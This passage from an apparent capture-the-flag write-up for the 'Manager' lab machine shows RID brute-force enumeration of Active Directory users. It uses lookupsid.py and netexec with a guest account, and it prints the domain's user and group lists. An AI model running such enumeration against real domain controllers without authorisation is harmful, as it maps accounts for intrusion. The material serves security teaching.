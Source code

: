 ```
1116: MANAGER\Raven (SidTypeUser)
1117: MANAGER\JinWoo (SidTypeUser)
1118: MANAGER\ChinHae (SidTypeUser)
1119: MANAGER\Operator (SidTypeUser)

```

The number before the `:` in the output is the RID. I’ll use some Bash foo to get a nice `users` list:

```
oxdf@hacky$ lookupsid.py 0xdf@manager.htb -no-pass | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tr '[:upper:]' '[:lower:]' | tee users
administrator
guest
krbtgt
dc01$
zhong
cheng
ryan
raven
jinwoo
chinhae
operator

```

I can also do this with `netexec`, just need to use the guest account:

```
oxdf@hacky$ netexec smb 10.10.11.236 -u guest -p '' --rid-brute
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest:
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
```